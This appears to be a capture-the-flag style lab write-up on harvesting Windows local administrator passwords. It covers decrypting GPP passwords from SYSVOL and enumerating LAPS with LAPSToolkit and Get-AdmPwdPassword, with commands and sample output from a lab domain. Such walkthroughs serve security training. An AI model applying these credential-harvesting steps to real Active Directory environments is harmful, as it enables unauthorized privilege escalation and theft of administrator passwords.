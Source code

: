 **Group Policy Preferences (GPP)**

GPP allows administrators to manage local administrator passwords across multiple Windows machines using domain policies. However, the XML files in the SYSVOL folder used by GPP to store these passwords were encrypted with AES-256. After Microsoft accidentally published the encryption key, domain users could easily decrypt these passwords. Tools like Get-GPPPassword are used to recover these passwords from the SYSVOL folder.
<br>

**Local Administrator Password Solution (LAPS)**

Introduced by Microsoft in 2015, LAPS securely manages local administrator passwords by storing them in Active Directory attributes (```ms-mcs-AdmPwd``` for the password and ```ms-mcs-AdmPwdExpirationTime``` for expiration time). LAPS replaces the less secure SYSVOL method and uses ```admpwd.dll``` to handle password changes and updates.

**Enumerate for LAPS**

Before we do this we need to check if ```LAPS``` is installed in the target machine, which can be done by checking the ```admpwd.dll``` path.
```
C:\Users\>dir "C:\Program Files\LAPS\CSE"
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Program Files\LAPS\CSE

06/06/2022  01:01 PM              .
06/06/2022  01:01 PM              ..
05/05/2021  07:04 AM           184,232 AdmPwd.dll
               1 File(s)        184,232 bytes
               2 Dir(s)  10,306,015,232 bytes free
```
The output confirms that we have LAPS on the machine.<br>
Once we obtain that the ```LAPS``` is installed, we need to find which AD organizational unit (OU) has the ```"All extended rights"``` attribute that deals with ```LAPS```.

> All extended rights

Refers to permissions needed to manage LAPS attributes in Active Directory, specifically:

    Managing LAPS Attributes: Accessing or modifying ms-mcs-AdmPwd (local admin password) and ms-mcs-AdmPwdExpirationTime (password expiration).
    Extended Permissions: Includes reading/updating passwords, modifying expiration times, and setting permissions for LAPS-related operations.

We will use ```LAPSToolkit``` PowerShell script to do that.<br>
To search through all OUs to see which AD groups that has **"All extended rights"** attribute that deals with LAPS:
```
PS C:\Tools> Find-LAPSDelegatedGroups

OrgUnit                 Delegated Groups
-------                 ----------------
OU=THMorg,DC=thm,DC=red THM\LAPsReader
```
Then displays all computers with LAPS enabled:
```
PS C:\Tools> Get-LAPSComputers

ComputerName                Password        Expiration
------------                --------        ----------
Creds-Harvesting.thm.red THMLAPSPassw0rd 02/11/2338 11:05:23
```


**Getting the Password**

At this poit we know that the OU THMorg contain LAPsReader group that have **"All extended rights"** permissions and "Creds-Harvesting.thm.red" computer have ```LAPS``` installed.<br>

we need to retrieve the local administrator password for a specified computer (Creds-Harvesting) that is managed by LAPS.:
```
PS C:\> Get-AdmPwdPassword -ComputerName creds-harvestin

ComputerName         DistinguishedName                             Password           ExpirationTimestamp
------------         -----------------                             --------           -------------------
CREDS-HARVESTIN      CN=CREDS-HARVESTIN,OU=THMorg,DC=thm,DC=red    FakePassword    2/11/2338 11:05:2...
```












